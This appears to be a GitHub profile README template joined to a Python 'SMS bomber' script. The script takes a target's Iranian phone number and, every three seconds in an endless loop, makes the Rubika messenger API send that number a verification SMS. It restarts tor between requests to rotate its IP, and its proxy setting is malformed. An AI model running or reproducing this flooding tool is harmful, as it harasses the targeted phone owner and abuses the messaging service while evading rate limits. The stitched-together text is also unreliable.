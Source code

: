us.py- 👋 Hi, I’m @Arash337
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...

<!---
Arash337/Arash337 is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
import os
import time
import requests
from threading import Thread
from colorama import Fore
from time import sleep
proxy = {"https": "127.0.0.1.8000"}
os.system("clear")
print(Fore.GREEN)
print("""                                                                                                                                      _____                    
 _ __ ___   __ ___  _| |_ ___  _ __ 
| '_ ` _ \ / _` \ \/ / __/ _ \| '__|
| | | | | | (_| |>  <| || (_) | |   
|_| |_| |_|\__,_/_/\_\\__\___/|_|

""")
sleep(2)
os.system("clear")
print(Fore.RED)
print("""
>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>
 _ __ ___   __ ___  _| |_ ___  _ __ 
| '_ ` _ \ / _` \ \/ / __/ _ \| '__|
| | | | | | (_| |>  <| || (_) | |   
|_| |_| |_|\__,_/_/\_\\__\___/|_|
                                                                   
<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<
  
  
  ------ >>>>>> t.me/arshia_4700
			                                                                                                                    
""")                                                                      

#!/usr/bin/python


def rubika(phone):
    #rubika api
    ruH = {"Host": "messengerg2c4.iranlms.ir","content-length": "96","accept": "application/json, text/plain, */*","user-agent": "Mozilla/5.0 (Linux; Android 9; SM-G950F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.111 Mobile Safari/537.36","content-type": "text/plain","origin": "https://web.rubika.ir","sec-fetch-site": "cross-site","sec-fetch-mode": "cors","sec-fetch-dest": "empty","referer": "https://web.rubika.ir/","accept-encoding": "gzip, deflate, br","accept-language": "fa-IR,fa;q\u003d0.9,en-GB;q\u003d0.8,en;q\u003d0.7,en-US;q\u003d0.6"}
    ruD = {"api_version":"3","method":"sendCode","data":{"phone_number":phone.split("+")[1],"send_type":"SMS"}}
    try:
        ruR = requests.post("https://messengerg2c4.iranlms.ir/", headers=ruH, json=ruD, proxies=proxy)
        if "OK" in ruR.text:
            print ("sended sms:)")
        else:
            print ("maxtor")
    except:
        print ("maxtor")

def main():
    phone = str(input("""
                  ---------------------------------------
                -------------------------------------------
              _____________________________
             _________________________________________
            ———————————————————————————————————————————————————
           ∞∞∞∞∞∞∞∞∞∞∞∞∞∞∞∞∞∞∞∞∞∞∞∞∞∞∞∞∞∞∞∞∞∞∞∞∞∞∞∞∞∞∞∞∞∞∞∞∞∞∞∞∞
          ≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠≠
         ≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈≈
        ××××××××______×××××××××××××××××××××××××××××××××_____×××××××
       ‡‡†‡‡‡‡‡‡|     |†‡†‡‡†‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡|     |‡††††††
       ‡‡‡‡‡‡‡‡‡|     |‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡|     |‡††‡‡‡‡‡
       ‡‡‡‡‡‡‡‡‡|     |‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡|     |‡‡‡‡‡‡‡‡
       ‡‡‡‡‡‡‡‡‡‡_____‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡_____‡‡‡†‡‡‡‡‡
       ‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡
       ‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡
       ‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡\\\\\\\\\\\\\\‡//////////////‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡
       ‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡\                         /‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡
       ‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡\                       /‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡
       ‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡
       ‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡‡
        ††††††††††††††††††††††††††††††††††††††††††††††††††††††††††††
         ★★★★★★★★★★★★★★★★★★★★★★★★★★★★★★★★★★★★★★★★★★★★★★★★★★★★★★★★★★
          ________________________________________________
           -------------------------------------------------------
            +++++++++++++++++++++++++++++++++++++++++++++++++++++
             *******************************************
#666
             
 Number>> (+98xxxxxxx): """))
    while True:
        Thread(target=rubika, args=[phone]).start()
        os.system("killall -HUP tor")
        time.sleep(3)


if __name__ == "__main__":
    main()

